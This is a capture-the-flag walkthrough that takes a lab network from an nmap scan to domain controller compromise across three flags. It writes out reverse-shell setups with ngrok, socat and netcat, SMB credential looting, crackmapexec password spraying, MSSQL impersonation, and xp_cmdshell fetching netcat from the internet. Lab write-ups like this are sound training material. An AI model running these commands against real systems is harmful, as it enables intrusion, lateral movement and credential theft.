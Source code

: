 ### Flag 1
#### 1. Nmap Scan

First, we need to run an Nmap scan on the target domain to identify open ports and services.

```bash
nmap graylog.hackerverse.games
```

**Expected Output:**
```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
443/tcp  open  https
8080/tcp open  http-proxy
```

The key port for our attack is port 8080, which hosts the web application.

#### 2. Crafting the Python Payload

Clone the payload from the Github

```python
https://github.com/monrax/flask-image-bgremover/tree/demo/ctf
```

#### 3. Setting Up the Listener

We need to start a listener on our machine to catch the reverse shell:

```bash
cd /home/ubuntu/flask-image-bgremover-demo-ctf/ctf/scripts
python3 rshell.py
```

To handle potential NAT issues, we can use `ngrok` for port forwarding:

```bash
ngrok tcp 5003
```

Update the Python payload with the forwarded IP and port from `ngrok`.

#### 6. Receiving the Reverse Shell

After setting up a listener, run the `dropin.sh` from the location above with the URL & details of the webserver.

```bash
./dropin.sh
```
This will get you the reverse shell as.

Now this shell is not stable, so to get a stable reverse shell to perform next steps use the following command on the attacker machine.
```bash
ngrok tcp 4242
socat file:`tty`,raw,echo=0 TCP-L:4242
```

and run the following command on the unstable reverse shell.

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:127.0.0.1:4242
```

Make sure to change the IP address and the port number on these two commands, and also one thing to note here is that ngrok does not provide the functionality to forward two ports at one time, so to overcome this you may have a paid version or use two different machines on the same network like a virtual machine with different ngrok account.
#### 7. Enumeration

Perform enumeration to gather information about the system:

```bash
ls /var/www/DomainStuff/Creds
cat /var/www/DomainStuff/Creds/SMBPassCode.txt
```

Example SMB credentials might look like this:

```
Username: samba
Password: The_dataSMBPasscode12
```

#### 8. Checking Domain Membership

Check if the machine is domain-joined:

```bash
realm list
```

Example output might indicate the domain `hackr.games`.

#### 9. Exploring SMB Shares

Check open ports and SMB shares:

```bash
netstat -tuln | grep 'LISTEN'
smbclient -L \\\\localhost\\ -U samba%'The_dataSMBPasscode12'
```

If `MyDomainAccount` is listed, connect to it:

```bash
smbclient \\\\localhost\\MyDomainAccount -U samba%'The_dataSMBPasscode12'
```

Use `mget` to download files:

```bash
mget DomainAccount.txt
cat DomainAccount.txt
```

You may find credentials like:

```
hackr.games\operation:TheOpsPrivs@123
```

Switch to the `operation` user:

```bash
su operation@hackr.games
```

Check the home directory for flags:

```bash
ls /home/operation@hackr.games
cat /home/operation@hackr.games/flag.txt
```

**Flag 1:**
```
flag{S4Mb4_Sh4r3_Sh0uld_Not_C0Nt4in_Cr3d$}
```

### Flag 2
#### 10. Domain Controller Access

Identify the domain controller by checking `/etc/hosts`:

```bash
cat /etc/hosts
```

Example entries:

```
10.10.1.252 hackr.games
10.10.1.252 dc.hackr.games
10.10.0.91  web.hackr.games
```

Spray the credentials on the domain controller:

```bash
crackmapexec smb 10.10.1.252 -u operation -p 'TheOpsPrivs@123'
```

If successful, use `winrm` to log in:

```bash
crackmapexec winrm 10.10.1.252 -u operation -p 'TheOpsPrivs@123'
```

#### 11. Exploring MSSQL Server

Check open ports and MSSQL server login:

```bash
nmap 10.10.1.252
crackmapexec mssql 10.10.1.252 -u operation -p 'TheOpsPrivs@123'
```

Login to MSSQL:

```bash
impacket.mssqlclient HACKR/operation:'TheOpsPrivs@123'@10.10.1.252 -windows-auth
```

Enumerate impersonation privileges:

```sql
enum_impersonate
```

The above `enum_impersonate` command will list the impersonation privileges. Here we can see that the user `operation` can impersonate the user `sys-admin`. Let's do it and get the flag 2.

This will impersonate the user:

```sql
exec_as_login sys-admin
```

List all of the tables user `sys-admin` has access to:

```sql
select * from information_schema.tables
```

We found the table named `flag`, let's dump the flag out and emulate the data exfiltration:

```sql
select * from flag
```

Output:
```
flag{MSSQL_Flag_With_IMPERSONATION}
```

### Flag 3
#### 12. Enabling `xp_cmdshell`

Enable `xp_cmdshell` to execute system commands:

```sql
enable_xp_cmdshell
```

#### 13. Getting Reverse Shell on Domain Controller

Prepare the environment for a reverse shell by taking another reverse shell and running these commands so we can get the shell from the `DC` using `netcat`:

```bash
crackmapexec winrm 10.10.1.252 -u operation -p 'TheOpsPrivs@123' -X 'mkdir C:\Temp'  

crackmapexec winrm 10.10.1.252 -u operation -p 'TheOpsPrivs@123' -X "Invoke-WebRequest -Uri 'https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip' -OutFile \"C:\Temp\netcat-win32-1.11.zip\""

crackmapexec winrm 10.10.1.252 -u operation -p 'TheOpsPrivs@123' -X "Expand-Archive -Path \"C:\Temp\netcat-win32-1.11.zip\" -DestinationPath \"C:\Temp\""
```

Execute `nc` to get a shell, but before this get another reverse shell on a web server and start a listener on it:

```bash
nc -nvlp 3333
```

Now we can do it:

```sql
xp_cmdshell "powershell -ep bypass C:\Temp\netcat-1.11\nc64.exe 10.10.0.91 3333 -e powershell"
```

Read the final flag:

```bash
type C:\Users\Administrator\Desktop\flag.txt
```

**Flag 3:**
```
flag{The_XP_cmd_is_R34lly_B4DD!!!}
```
